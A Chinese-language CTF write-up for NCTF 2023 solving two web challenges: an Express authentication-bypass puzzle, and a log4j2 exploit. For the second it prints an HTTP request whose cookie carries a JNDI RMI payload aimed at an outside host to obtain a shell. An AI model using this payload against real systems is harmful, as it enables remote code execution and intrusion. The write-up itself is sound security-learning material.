 ```yaml
---
title: NCTF 2023 Writeup
date: 2023-12-25T16:01:54+08:00
tags: [CTF]
---
```


## Web

### Wait What?

> 这怎么可能呢？

```javascript

const express = require('express');
const child_process = require('child_process')
const app = express()
app.use(express.json())
const port = 80

function escapeRegExp(string) {
    return string.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
}

let users = {
    "admin": "admin",
    "user": "user",
    "guest": "guest",
    'hacker':'hacker'
}

let banned_users = ['hacker']

// 你不准getflag
banned_users.push("admin")

let banned_users_regex = null;
function build_banned_users_regex() {
	let regex_string = ""
    for (let username of banned_users) {
        regex_string += "^" + escapeRegExp(username) + "$" + "|"
    }
    regex_string = regex_string.substring(0, regex_string.length - 1)
    banned_users_regex = new RegExp(regex_string, "g")
}

//鉴权中间件
function requireLogin(req, res, next) {
    let username = req.body.username
    let password = req.body.password
    if (!username || !password) {
        res.send("用户名或密码不能为空")
        return
    }
    if (typeof username !== "string" || typeof password !== "string") {
        res.send("用户名或密码不合法")
        return
    }
    // 基于正则技术的封禁用户匹配系统的设计与实现
    let test1 = banned_users_regex.test(username)
    console.log(`使用正则${banned_users_regex}匹配${username}的结果为：${test1}`)
    if (test1) {
		console.log("第一个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
    // 基于in关键字的封禁用户匹配系统的设计与实现
    let test2 = (username in banned_users)
    console.log(`使用in关键字匹配${username}的结果为：${test2}`)
    if (test2){
        console.log("第二个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
    if (username in users && users[username] === password) {
        next()
        return
    }
    res.send("用户名或密码错误，鉴权失败！")
}

function registerUser(username, password) {
    if (typeof username !== "string" || username.length > 20) {
        return "用户名不合法"
    }
    if (typeof password !== "string" || password.length > 20) {
        return "密码不合法"
    }
    if (username in users) {
        return "用户已存在"
    }

    for(let existing_user in users){
        let existing_user_password = users[existing_user]
        if (existing_user_password === password){
            return `您的密码已经被用户'${existing_user}'使用了，请使用其它的密码`
        }
    }

    users[username] = password
    return "注册成功"
}

app.use(express.static('public'))

// 每次请求前，更新封禁用户正则信息
app.use(function (req, res, next) {
    try {
        build_banned_users_regex()
		console.log("封禁用户正则表达式（满足这个正则表达式的用户名为被封禁用户名）：",banned_users_regex)
    } catch (e) {
    }
    next()
})

app.post("/api/register", (req, res) => {
    let username = req.body.username
    let password = req.body.password
    let message = registerUser(username, password)
    res.send(message)
})

app.post("/api/login", requireLogin, (req, res) => {
    res.send("登录成功！")
})

app.post("/api/flag", requireLogin, (req, res) => {
    let username = req.body.username
    if (username !== "admin") {
        res.send("登录成功，但是只有'admin'用户可以看到flag，你的用户名是'" + username + "'")
        return
    }
    let flag = child_process.execSync("cat flag").toString()
    res.end(flag)
    console.error("有人获取到了flag！为了保证题目的正常运行，将会重置靶机环境！")
    res.on("finish", () => {
        setTimeout(() => { process.exit(0) }, 1)
    })
    return
})

app.post('/api/ban_user', requireLogin, (req, res) => {
    let username = req.body.username
    let ban_username = req.body.ban_username
    if(!ban_username){
        res.send("ban_username不能为空")
        return
    }
    if(username === ban_username){
        res.send("不能封禁自己")
        return
    }
    for (let name of banned_users){
        if (name === ban_username) {
            res.send("用户已经被封禁")
            return
        }
    }
    banned_users.push(ban_username)
    res.send("封禁成功！")
})



app.get("/", (req, res) => {
    res.redirect("/static/index.html")
})

app.listen(port, () => {
    console.log(`listening on port ${port}`)
})
```

需要使用 admin 用户才能得到 flag，但是 admin 用户被封禁了。for in 检查的是对象的 key，对于数组则是检测数组的下标，所以 for in 的封禁实现无法封禁 admin。生成正则表达式时做了转义处理，不太可能对正则表达式进行处理。猜测可以利用正则表达式的 lastIndex 特性，让正则表达式判断两次 admin 从而绕过检测。但是每次登陆时会重新生成正则表达式，无法正常让 lastIndex 增加。

发现 ban_user 的 API 没用做数据合法性检查。可以传入一个 Object，之后构建正则表达式的 for of 语句就会报错，从而无法更新正则表达式。

```json
{
    "username": "user",
    "password": "user",
    "ban_username": {
        "a": 1
    }
}
```

之后以 admin 身份重复请求两次 getflag 即可得到 flag。

### logging

> Welcome to NCTF 2023 Sign In!
> Where is my log? (Service restarts every 15 minutes)

根据题目意思和附件内容可以发现，需要利用 log4j2 漏洞。

Spring 在遇到 cookie 内包含中文时，会打印第一个请求的 cookie 内容。可以在 cookie 内夹带 payload。

使用 JNDI-Injection-Exploit 创建 JNDI 服务器。在这里需要选择 Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath) 的 rmi 地址。

```http
GET / HTTP/1.1
User-Agent: PostmanRuntime/7.36.0
Accept: */*
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: 这是什么=${jndi:rmi://example.com:1099/3k20sl}
```

发送后即可得到 shell 地址。中间需要注意有些校园网封禁了带有 jndi 的数据包和 dnslog 等回显平台，测试的时候需要仔细排查才能复现成功。此外，因为只会打印第一次的 cookie 值，所以每次发送 payload 后需要等题目环境重置后才能再次发送 payload。
